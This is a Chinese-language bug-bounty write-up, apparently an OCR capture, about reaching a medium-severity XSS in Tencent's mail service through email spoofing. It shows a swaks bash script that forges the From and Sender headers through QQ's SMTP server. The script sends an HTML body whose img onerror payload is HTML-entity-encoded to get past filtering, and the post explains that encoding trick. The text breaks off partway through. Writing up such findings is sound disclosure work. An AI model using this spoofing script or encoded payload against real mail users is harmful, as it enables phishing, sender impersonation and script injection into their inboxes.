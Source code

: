 ```
- 13 - 14 控制字符串渲染



---

#  从 邮件伪造 到 腾讯中危 XSS SRC 

## 研究

出于 一个半吊子安全研究员的业余操守 

> 其实是听说 各大邮箱都有点 xss 就想试试 
>
> 结果没成想 还真就出了一个

这里为了省事 直接写了一个 shell 文件 调 swaks 来进行邮件伪造

> 问就是 swaks 自动化程度非常高 方便的很 交互

```bash
#!/bin/bash
swaks \
--server smtp.qq.com \
--port 587 \
--ehlo tencent.com \
--au 'qq 邮箱用户名' \
--ap 'qq 邮箱授权码' \
--to 'RCPT to 给我自己' \
--from 'mail from 我自己' \
--header 'Sender: <伪造 sender 头欺骗邮箱 可以有效阻止代发显示 可以为垃圾字符使得处理错误 但是不可以不设置>' \
--header 'From: 被伪造者' \
--header "Subject: xx 通知 " \
--add-header "MIME-Version: 1.0" \
--add-header "Content-Type: text/html" \
--body '<a href="https://en.wikipedia.org/wiki/Main_Page">link</a><div><img src="x" onerror=&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;></div>' 
```

这里  MIME-Version 和 Content-Type 是希望邮件服务器认为这封邮件是 html 格式的

> 关于 MIME ( Multipurpose Internet Mail Extensions ) 这里 给出资料链接 :
>
> https://en.wikipedia.org/wiki/MIME

然后在 --body 这里 添加 一系列 payload 

核心部分是 

```html
<img src="x" onerror=&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;>
```

这里需要将 onerror 的 js代码进行 html 编码 ( [工具链接](https://tool.oschina.net/encode/) ) 
